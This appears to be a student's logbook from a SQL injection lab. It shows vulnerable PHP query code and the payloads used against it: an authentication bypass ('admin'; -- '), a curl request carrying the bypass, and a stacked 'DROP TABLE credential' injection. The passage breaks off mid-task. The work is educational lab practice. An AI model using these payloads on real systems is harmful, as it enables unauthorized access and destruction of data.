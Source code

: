 # SQL Injection LogBook

This logbook pretends to documentante the work that was made in the SQL Injection lab, deduce some conclusions, identify the errors that were commited as well as to suggest the mosifications that would make the system secure to this type of attacks.


## Task 2

In this attack, we were presented to the php file that is being ran under the server side

```php
$input_uname = $_GET[’username’];
$input_pwd = $_GET[’Password’];
$hashed_pwd = sha1($input_pwd);
...
$sql = "SELECT id, name, eid, salary, birth, ssn, address, email,
               nickname, Password
        FROM credential
        WHERE name= ’$input_uname’ and Password=’$hashed_pwd’";
$result = $conn -> query($sql);


```

### Task 2.1 - Attack from webpage

Considering that we know the code, it is really easy to exploit this vulnerability:

`username: admin'; -- `


`password: <anything> `

This approach works, because the sql statement that will be queried to the database will be partionally connected and, with that, we can enter the system:

```sql
    SELECT id, name, eid, salary, birth, ssn, address, email,
               nickname, Password
        FROM credential
        WHERE name= ’admin’; -- and Password=’<anything>";
```

### Task 2.2 - Attack from command line

After that, the approach that was made was exaclty the same, but in the command line, it will go like this:

```sh
curl ’www.seed-server.com/unsafe_home.php?username=admin%27%20--%20&Password=<anything>’
```

This approach works and the justification is similar to task 2.1

### Task 2.3 - Append a new SQL statement

The next challange is to try to add a new sql statement in the project. Here is a way of how to do that:

`username: admin'; DROP TABLE credential; -- `


`password: <anything> `

This approach will lead to a query like this:

```sql
    SELECT id, name, eid, salary, birth, ssn, address, email,
               nickname, Password
        FROM credential
        WHERE name= ’admin’; DROP TABLE credential; -- and Password=’<anything>";
```

However, this query does not let to drop the table `creentia`. That occurs because the `$conn -> query($sql)` only executes the first query as a protection measure.

## Task 3

Here is the php code that executes the query that will update the database after editing the profile

```php
$hashed_pwd = sha1($input_pwd);
$sql = "UPDATE credential SET
   nickname=’$input_nickname’,
   email=’$input_email’,
   address=’$input_address’,
   Password=’$hashed_pwd’,
   PhoneNumber=’$input_phonenumber’
WHERE ID=$id;";
$conn->query($sql);
```

The form looks like this:



### Task 3 - Modify own salary

To do so, the parameters are 
